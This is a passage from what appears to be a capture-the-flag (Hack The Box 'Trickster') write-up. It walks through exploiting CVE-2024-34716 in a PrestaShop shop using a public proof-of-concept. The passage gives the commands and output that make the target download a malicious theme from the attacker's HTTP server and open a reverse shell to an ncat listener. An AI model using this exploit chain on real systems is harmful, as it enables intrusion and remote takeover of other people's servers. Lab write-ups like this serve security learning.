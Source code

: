 Luckily this blog post also comes with a PoC Github repo that will allow us to automate the entire exploit chain. 

<https://github.com/aelmokhtar/CVE-2024-34716>

We can start but cloning down the repo and starting a simple HTTP server with Python in order to serve any files in the current directroy to the local network via web service.

```shell
┌──(kali㉿kali)-[~/Hacking/HTB/Trickster]
└─$ git clone https://github.com/aelmokhtar/CVE-2024-34716.git
Cloning into 'CVE-2024-34716'...
remote: Enumerating objects: 60, done.
remote: Counting objects: 100% (60/60), done.
remote: Compressing objects: 100% (42/42), done.
remote: Total 60 (delta 30), reused 34 (delta 13), pack-reused 0 (from 0)
Receiving objects: 100% (60/60), 6.71 MiB | 266.00 KiB/s, done.
Resolving deltas: 100% (30/30), done.
                                                                                                                    
┌──(kali㉿kali)-[~/Hacking/HTB/Trickster]
└─$ cd CVE-2024-34716 
                                                                                                                    
┌──(kali㉿kali)-[~/Hacking/HTB/Trickster/CVE-2024-34716]
└─$ ls
exploit.html  ps_next_8_theme_malicious_old.zip  requirements.txt
exploit.py    README.md                          reverse_shell_template.php
                                                                                                                    
┌──(kali㉿kali)-[~/Hacking/HTB/Trickster/CVE-2024-34716]
└─$ sudo python3 -m http.server 4000                                                     
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 4000 (http://0.0.0.0:4000/) ...
```

The attacking system must be prepped with Python's pip package manager, which can be easily satisfied with the `requirements.txt` file provided in the Git repo. We also need to make sure that Ncat is installed.

```shell
pip3 install -r requirements.txt --break-system-packages
sudo apt install ncat -y
```

Now we can run the exploit. Be sure to register an account on the site so that the provided email in the exploitation command is a valid address. Also be sure to substitute the `--local-ip` parameter with your own local IP address. The following path shows the exploitation steps completed in order to gain a remote shell on the target machine.

```shell
┌──(kali㉿kali)-[~/Hacking/HTB/Trickster/CVE-2024-34716]
└─$ python3 exploit.py --url 'http://shop.trickster.htb' --email 'test@gmail.com' --local-ip 10.10.14.6 --admin-path 'admin634ewutrx1jgitlooaj'
[X] Starting exploit with:
        Url: http://shop.trickster.htb
        Email: test@gmail.com
        Local IP: 10.10.14.6
        Admin Path: admin634ewutrx1jgitlooaj
[X] Ncat is now listening on port 12345. Press Ctrl+C to terminate.
Serving at http.Server on port 5000
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:12345
Ncat: Listening on 0.0.0.0:12345
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
Request: GET /ps_next_8_theme_malicious.zip HTTP/1.1
Response: 200 -
10.10.11.34 - - [29/Nov/2024 23:32:21] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
Ncat: Connection from 10.10.11.34:53250.
```